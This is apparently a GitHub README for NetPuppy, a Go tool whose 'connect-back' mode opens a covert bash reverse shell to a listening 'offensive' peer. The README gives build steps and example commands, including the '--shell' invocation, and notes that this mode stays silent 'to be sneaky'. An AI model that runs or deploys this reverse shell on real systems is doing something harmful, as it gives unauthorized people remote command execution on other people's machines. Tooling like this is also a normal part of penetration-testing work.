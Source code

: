 # NetPuppy
```
|8PPPPe
|8    |8 |eeee |eeeee    ___      .++.
|8e   |8 |8      |8   __/_, '.  .'    '. .
|88   |8 |8eee   |8e  \_,  | \_'  /   )'-')
|88   |8 |88     |88   U ) '-'    \  (('"'
|88   |8 |88ee   |88   ___Y  ,    .'7 /|
______________________(_,___/___.' (_/_/_
|8PPPPe
|8    |8 |e   .e |eeeee  |eeeee  |e   .e
|8eeee8  |8   |8 |8   |8 |8   |8 |8   |8
|88      |8e  |8 |8eee8  |8eee8  |8eee8
|88      |88  |8 |88     |88      |88
|88      |88ee8  |88     |88      |88
________________________________________
	
	  Launch a puppy to
   	~ sneef  and  fetch ~
	  data   for   you! 
```
### Say goodbye to that "`python -c import pty; pty.spawn('bash')`" bullsh*t!
NetPuppy is a CLI tool for establishing a TCP connection b/w two peers with the option to start a stable reverse shell on one of them. NP does this by creating a pseudoterminal, so the shell experience is similar to telnet or (un-encrypted) SSH.

Originally inspired by [Netcat](https://netcat.sourceforge.net/) (until I figured out what netcat actually does) & written in Golang!
## Install
- NetPuppy is a Go project, so make sure you at least have Go 1.22.1 installed. 
- **ADDITIONALLY** you will need gcc for the CGo!
1. Clone this repo
2. Run `go build` in the root directory
## Use:
NetPuppy has two primary modes: offense & connect-back.
### Offense
The 'offensive' peer is executed as a server and listens to the `0.0.0.0` address and a specified port. It will bind incoming TCP connections to that port.
### Connect-Back
The 'connect-back' peer starts w/ a client-like relationship to the offense peer. I.e. it will connect to the address and port you give it. Additionally, if you give the `--shell` flag, it will start a bash process on the local machine. This shell will take input from the offensive peer (via the socket) and execute the input as commands on the machine its running on. The output from the shell will then be echoed back to the Offensive peer.
#### Flags:
- `-H` the host IP address you want to connect to (in connect-back mode)
- `-p` the port you want to start your peer on (both mode types)
- `-l` tell NetPuppy to listen, this will start NP in the offense mode. You can also give a port number.
- `--shell` tell NetPuppy to start a bash shell on the client peer which will take socket input as stdin and output stdout/stderr back into the socket.
## Examples:
### Offense Peer:
```bash
go run main.go -l -p 44444
```
#### Output 
```
#... <banner>          

#    *sneef sneef*
#   .-.
#  / (_          |Host:  0.0.0.0
# ( "  6\___o    |RPort: 44444
# /  (  ___/     |LPort: 44444
#/     /  U      |Mode:  Offensive Server
```

### Connect-Back Peer:
```bash
go run main.go -H 0:0:0:0:0:0:0:1 -p 44444
```

#### Output
```
#...<banner>

#        bork!
#     __  /     |Host:  0:0:0:0:0:0:0:1
#(___()'';      |RPort: 44444
#/ )   /'       |LPort: 60804
#/\'--/\        |Mode:  Client
```

### Connect-Back Peer w/ shell:
The Connect-Back peer will **NOT** print any output to the terminal when the `--shell` flag is given (we're trying to be sneaky). Any errors will be sent through the socket to the Offensive peer (unless the socket hasn't been connected yet, in that case NP will just exit without printing anything on the target machine).
```bash
go run main.go -H 127.0.0.1 -p 44444 --shell
```

## Goals
NetPuppy will be able to:
- [x] listen for & serve incoming TCP connections as well as initiate outgoing ones
- [ ] maintain a stable connections b/w both parties (currently improving on this, see branch [58-stabilize-shell-pty](https://github.com/TrshPuppy/netpuppy/tree/58-stabilize-shell-pty)
- [x] send and receive data from either endpoint
- [x] initiate a 'helper shell' on the client peer



## This project is still being built & improved!
### Contributing:
Just fork and create a pull request w/ a description of your changes. I (TrshPuppy) will review it! :)
### Python?
This project was originally written in Python. If you'd like to fork the Python branch (which isn't being updated), you can check it out [here](https://github.com/TrshPuppy/NetPuppy/tree/python-version-abandoned)!

